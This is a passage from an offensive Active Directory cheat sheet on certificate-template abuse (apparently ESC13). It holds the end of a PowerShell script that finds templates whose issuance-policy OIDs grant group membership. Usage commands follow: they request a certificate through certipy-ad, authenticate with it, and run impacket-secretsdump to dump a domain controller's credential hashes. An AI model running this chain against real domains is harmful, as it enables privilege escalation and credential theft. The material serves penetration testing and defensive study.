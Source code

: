 ```powershell
                Write-Host "OID msPKI-Cert-Template-OID: $($OID."msPKI-Cert-Template-OID")"
                Write-Host "------------------------"        
            }
        }
    }

    Write-Host "Enumerating certificate templates"
    Write-Host "------------------------"

    # Iterate through each template
    foreach ($Template in $Templates) {

        # Check if the Template OID matches any OID in the list
        $MatchingOID = $OIDs | ? { $_."msDS-OIDToGroupLink" -and $Template."msPKI-Certificate-Policy" -contains $_."msPKI-Cert-Template-OID" }

        if ($MatchingOID) {
            Write-Host "Certificate template $($Template.Name) may be used to obtain membership of $($MatchingOID."msDS-OIDToGroupLink")`r`n"
            Write-Host "Certificate template Name: $($Template.Name)"
            Write-Host "OID DisplayName: $($MatchingOID."msPKI-Cert-Template-OID")"
            Write-Host "OID DistinguishedName: $($MatchingOID."DistinguishedName")"
            Write-Host "OID msPKI-Cert-Template-OID: $($MatchingOID."msPKI-Cert-Template-OID")"
            Write-Host "OID msDS-OIDToGroupLink: $($MatchingOID."msDS-OIDToGroupLink")"
            Write-Host "------------------------"
        }
    }
    Write-Host "Done"
} else {
    Write-Host "Error: No OIDs were found."
}
```

#### Usage

```console
$ certipy-ad req -u '<USER>@<DOMAIN>' -p '<PASSWORD>' -dc-ip '<RHOST>' -target '<CA>' -ca '<CA>' -template 'SecureAdminsAuthentication'
```

```console
$ certipy-ad auth -pfx '<FILE>.pfx' -dc-ip '<RHOST>'
```

```console
$ export KRB5CCNAME=<USERNAME>.ccache
```

```console
$ impacket-secretsdump -just-dc-user '<RHOST>$' '<DOMAIN>/<USERNAME>@<DOMAIN>' -dc-ip '<RHOST>' -target-ip '<RHOST>' -k -no-pass
```

### ESC14: Weak Explicit Certificate Mapping
